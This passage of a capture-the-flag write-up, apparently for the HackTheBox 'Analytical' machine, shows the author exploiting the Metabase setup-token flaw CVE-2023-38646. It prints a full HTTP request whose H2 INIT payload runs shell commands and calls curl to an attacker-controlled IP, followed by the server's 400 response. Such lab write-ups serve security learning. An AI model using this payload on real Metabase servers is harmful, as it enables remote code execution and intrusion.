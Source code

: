Then I tried finding the version on the page, and found out that it was on the range of affected versions of the CVE.

![](image-3.png)

I tried looking for the stated `setup-token`, and we got it there.

![](image-4.png)

### First exploit attempt

Tried running [this PoC](https://github.com/kh4sh3i/CVE-2023-38646/blob/main/CVE-2023-38646.py) manually on burp suite, which didn’t work for me, for some reason.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: application/json
Content-Type: application/json
Connection: close
Content-Length: 558

{
    "details": {
        "details": {
            "advanced-options": true,
            "classname": "org.h2.Driver",
            "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('curl -d key=kh4sh3i 10.10.14.30:8000 ');",
            "subprotocol": "h2"
        },
        "engine": "postgres",
        "name": "x"
    },
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
}
```


```http
HTTP/1.1 400 Bad Request
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 22 Oct 2023 06:57:59 GMT
Content-Type: application/json;charset=utf-8
Content-Length: 299
Connection: close
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Last-Modified: Sun, 22 Oct 2023 06:57:59 GMT
Strict-Transport-Security: max-age=31536000
Set-Cookie: metabase.DEVICE=c52407c5-4f69-4e91-a934-a29a8e731c6d;HttpOnly;Path=/;Expires=Thu, 22 Oct 2043 06:57:59 GMT;SameSite=Lax
X-Permitted-Cross-Domain-Policies: none
Cache-Control: max-age=0, no-cache, must-revalidate, proxy-revalidate
```